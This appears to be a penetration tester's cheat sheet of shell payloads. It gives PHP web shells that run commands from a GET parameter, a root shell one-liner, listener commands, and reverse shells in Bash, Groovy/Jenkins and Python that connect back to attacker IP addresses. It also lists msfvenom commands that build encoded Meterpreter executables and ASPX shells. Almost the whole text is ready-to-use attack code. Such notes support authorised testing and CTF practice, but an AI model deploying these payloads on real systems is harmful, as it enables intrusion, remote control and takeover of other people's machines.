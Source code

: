 # Shells

## Stabilisation/Upgrade shell

### Python

```console
Step 1
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python2 -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Step 2
$ export TERM=xterm

Step 3
STRG + Z to Backround shell
$ stty raw -echo; fg

Optional Setp 4:
$ reset
```

## Web Shell PHP

### POC
If you are unsure whether they are enabled on your system, the following will return a list of the dangerous functions that are enabled.
```php
<?php print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));?>
```

### Backtrick

```php
<?php system($_GET['cmd']);?>
'cmd' HTTP Request GET parameter -> e.g. "/shell.php?cmd=ls%20-la" 

<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

### system()
```php
// Return the listing of the directory where the file runs (Windows)
<?php system("dir"); ?>

// Return the listing of the directory where the file runs (Linux)
<?php system("ls -la"); ?>
```

### exec()

```php
// Executes but returns nothing
<?php exec("ls -la"); ?>

// Executes, returns only last line of the output
<?php echo exec("ls -la"); ?>
```

### shell_exec()

```php
// Executes, returns the entire output as a string
<?php echo shell_exec("ls -la"); ?>
```

### passthru()

```php
// Executes, returns output in raw format
<?php passsthru("ls -la"); ?>
```

## Shells

### Python

```console
$ python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Reverse Shells

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Listener

```bash
nc -lvnp 9001

socat TCP-L:<port>
```

### Bash

```bash
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Groovy/Jenkins

```
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Python

```console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.20.70",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

Payload Generator

### Windows Meterpreter Reverse shell

```console
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly.
```

### ASPX
```console
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx
```

### Reverse nc

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```
